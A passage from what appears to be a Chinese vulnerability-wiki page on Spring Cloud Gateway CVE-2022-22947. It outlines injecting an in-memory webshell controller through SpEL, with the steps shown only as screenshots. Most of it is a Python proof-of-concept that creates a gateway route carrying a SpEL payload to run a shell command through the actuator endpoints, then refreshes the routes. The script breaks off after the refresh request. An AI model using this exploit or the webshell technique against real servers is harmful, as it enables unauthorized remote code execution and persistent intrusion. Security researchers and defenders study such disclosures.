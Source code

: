 <br/>接下来创建内存马的过程就很简单了，最终效果就是将如下自定义的`Controller`子类通过SPEL表达式注入到内存并通过`RequestMappingHandlerMapping`对象完成路由注册：

![img](/assets/PeiQi-Wiki/img/1647573912918-962092be-759d-488b-bc77-b6960a4b2cab.png)

<br/>构造完新的payload后，发送数据包：

![img](/assets/PeiQi-Wiki/img/1647573923086-32cab28a-86da-4cab-98fd-3405742b5d95.png)

<br/>refresh后将注入内存马：

![img](/assets/PeiQi-Wiki/img/1647573937710-577aedc0-9571-4868-b4fc-fd753abe0de9.png)

<br/>最后同样记得发送DELETE请求将创建的路由删除。

## 漏洞POC

<a-alert type="success" message="https://github.com/lucksec/Spring-Cloud-Gateway-CVE-2022-22947/blob/main/spring_cloud_RCE.py" description="" showIcon>
</a-alert>
<br/>

```python
import requests
import json
import sys


def exec(url):

    headers1 = {
        'Accept-Encoding': 'gzip, deflate',
        'Accept': '*/*',
        'Accept-Language': 'en',
        'User-Agent': 'Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36',
        'Content-Type': 'application/json'
    }

    headers2 = {
        'User-Agent': 'Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36',
        'Content-Type': 'application/x-www-form-urlencoded'
    }

    ## command to execute replace "id" in payload

    payload = '''{\r
      "id": "hacktest",\r
      "filters": [{\r
        "name": "AddResponseHeader",\r
        "args": {"name": "Result","value": "#{new java.lang.String(T(org.springframework.util.StreamUtils).copyToByteArray(T(java.lang.Runtime).getRuntime().exec(new String[]{\\"id\\"}).getInputStream()))}"}\r
        }],\r
      "uri": "http://example.com",\r
      "order": 0\r
    }'''

   

    
    re1 = requests.post(url=url + "/actuator/gateway/routes/hacktest",data=payload,headers=headers1,json=json)
    re2 = requests.post(url=url + "/actuator/gateway/refresh" ,headers=headers2)
```